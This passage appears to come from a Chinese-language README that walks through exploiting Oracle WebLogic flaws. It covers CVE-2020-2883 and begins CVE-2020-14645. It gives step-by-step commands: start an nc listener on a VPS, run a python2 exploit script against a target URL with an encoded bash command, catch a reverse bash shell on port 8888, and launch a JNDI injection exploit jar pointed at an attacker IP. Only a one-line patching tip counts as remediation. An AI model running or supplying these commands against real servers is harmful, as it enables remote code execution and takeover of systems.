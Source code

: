 vps开启nc监听。

![Dingtalk_20220330141917](.\image\Dingtalk_20220330141917.jpg)

本机利用自动化脚本进行一键利用。

本机执行：python2 cve-2020-2883_cmd.py -u http://目标主机域名或IP:端口 -c "bash编码后的系统命令"

![Dingtalk_20220330142418](.\image\Dingtalk_20220330142418.jpg)

此时vps8888端口可成功接收目标主机回弹bashshell。

![Dingtalk_202203330142528](.\image\Dingtalk_202203330142528.jpg)

修复建议：

1、及时安装weblogic修复补丁。

### CVE-2020-14645

影响版本：

Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.2.1.4

Oracle WebLogic Server 12.2.1.3

Oracle WebLogic Server 12.1.3.0

Oracle WebLogic Server 14.1.1.0

漏洞复现：

vps利用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar开启ldap监听。

vps执行：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar  -C "bash编码后的系统命令" -A 95.169.0.244

![Dingtalk_20220330152558](.\image\Dingtalk_20220330152558.jpg)
